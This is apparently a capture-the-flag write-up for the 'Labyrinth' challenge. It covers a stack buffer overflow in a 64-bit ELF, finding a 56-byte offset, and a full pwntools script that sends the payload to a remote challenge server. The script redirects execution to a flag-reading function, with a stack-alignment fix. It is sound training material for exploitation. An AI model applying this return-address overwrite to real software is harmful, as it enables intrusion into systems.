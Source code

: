 # Labyrinth

We're given an 64-bit ELF called Labyrinth.

Firstly, i'll analyzed the program using `ida` to disassemble it. We can see a main function of this program.This program expects us to input `69` or `069` to get another user input.Otherwise, the profram will be exit.

![decompile](img/decompile.png)

#Find The Offset

Next, we'll check the buffer offset of this program.We can use `cyclic` in `pwngdb` to find the offset.

To overwrite the return address, we can fill the buffer with `56` byte followed by the destination address.We'll jump to `escape_plan` address cause it opens the flag.txt.

![offset](img/offset.png)


payload :

```
from pwn import *

context.binary = elf = ELF("./labyrinth", checksec=False)


if args.LOCAL:
    p = process(elf.path)
else:
    p = remote('94.237.122.241', 52656)

gdb.attach(p, gdbscript='')

buffer = b"A" * 56
escape = elf.sym['escape_plan']

pay = buffer
pay += p64(escape)

p.sendlineafter(b">> ", b"69")
p.sendlineafter(b">> ", pay)

p.interactive()
```


When i run the payload, the program crashses annd stop at `movaps` intrunction, it's caleed the movaps issue. 

`When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte (0x10) boundary or a general-protection exception`


```
```
pwndbg> x/i $rip
=> 0x70f22b677693:      movaps XMMWORD PTR [rsp+0x40],xmm0
pwndbg>
```
```

#Stack  Alignment Fix

In order to align our stack, we can add a `ret` address, or use the address after the push intruction of `escape_plan` function.

```
Dump of assembler code for function escape_plan:
   0x0000000000401255 <+0>:     push   rbp
   0x0000000000401256 <+1>:     mov    rbp,rsp   <== we can use this or use the ret address
   0x0000000000401259 <+4>:     sub    rsp,0x10
   0x000000000040125d <+8>:     mov    edi,0xa
```

Now, it'work and we got the flag.

![flag](img/flag.png)

[solver](sv.py)





